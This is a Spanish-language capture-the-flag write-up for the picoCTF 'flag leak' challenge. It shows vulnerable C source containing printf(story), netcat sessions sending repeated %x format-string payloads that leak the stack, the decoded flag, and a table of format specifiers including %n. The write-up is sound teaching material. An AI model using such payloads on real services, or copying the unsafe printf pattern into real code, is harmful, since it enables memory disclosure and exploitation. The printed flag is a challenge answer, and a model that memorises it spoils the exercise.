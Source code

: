 # flag leak

## Descripción
Clase de cuentos 1/2
Sólo copio y pego con este [programa](https://artifacts.picoctf.net/c/91/vuln). ¿Qué puede salir mal? Puedes ver la fuente [aquí](https://artifacts.picoctf.net/c/91/vuln.c). Y conectar con él usando:
`nc saturn.picoctf.net 57106`

## Pistas
- Formato de cadenas

## Solución
```bash
┌──(kali㉿kali)-[~/picoctf/b_exploitation/flagleak]
└─$ cat vuln.c                  
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
                                                                                                                
┌──(kali㉿kali)-[~/picoctf/b_exploitation/flagleak]
└─$ nc saturn.picoctf.net 55187
Tell me a story and then Ill tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%X
Heres a story - 
ffc09f00ffc09f2080493467825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825582578258048300f7fbc990ffc09f84f7fbcb50f7f88410110f7f884101f7fbc0008048338f7f80d20f7e05ab06F636970
                                                                                                                
┌──(kali㉿kali)-[~/picoctf/b_exploitation/flagleak]
└─$ nc saturn.picoctf.net 55187
Tell me a story and then Ill tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Heres a story - 
ffdbfe60ffdbfe808049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f365f6b63306662347d666538fbad200013d4af000f7fc8990804c00080494100804c000ffdbff4880494182ffdbfff4ffdc00000ffdbff6000f7dbeed5
```

>[!solution]
>Primero, se tiene que analizar el código al hacer esto se obtiene una linea interesante `scanf("%127s", story);` en este caso se puede utilizar un format string attack, para lograrlo se introduce varias veces la cadena `%x` y se logró obtener una cadena hexadecimal que al usar la herramienta "Cyber Chef" para primero obtener una cadena ASCII y luego usar un Swap endianness para obtener la bandera.

## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}

## Notas adicionales
>[!danger]
>**Format string attack**
>Se produce cuando los datos enviados de una cadena de entrada son evaluados como un comando por la aplicación. De este modo, el atacante podría ejecutar código, leer la pila o provocar un fallo de segmentación en la aplicación en ejecución, causando nuevos comportamientos que podrían comprometer la seguridad o la estabilidad del sistema.

**Parámetros comunes utilizados en el format string attack**
| Parametros | Salida | Pasado como |
|--------|--------|--------|
| \%% | % carácter (literal) | Referencia |
| %p | Representación externa de un puntero a void | Referencia |
| %d | Decimal | Valor |
| %c | Carácter |  |
| %u | Decimal sin signo | Valor |
| %x | Hexadecimal | Valor |
| %s | Cadena | Referencia |
| %n | Escribe el número de caracteres en un puntero | Referencia |

>[!info]
>**Swap endianness**
>Cambia los datos de big-endian a little-endian o viceversa. Los datos pueden leerse en hexadecimal o en bytes brutos. Se devolverán en el mismo formato en que se introduzcan.

## Referencias
[CyberChef](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')&input=NmY2MzY5NzA3YjQ2NTQ0MzZiMzQzMzRjNWY2NzZlMzE2NzM0NmM0NjY2NjYzMDVmMzQ3NDUzNWYzNjVmNmI2MzMwNjY2MjM0N2Q2NjY1Mzg)
[Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)
[C Input Output (I/O)](https://www.programiz.com/c-programming/c-input-output)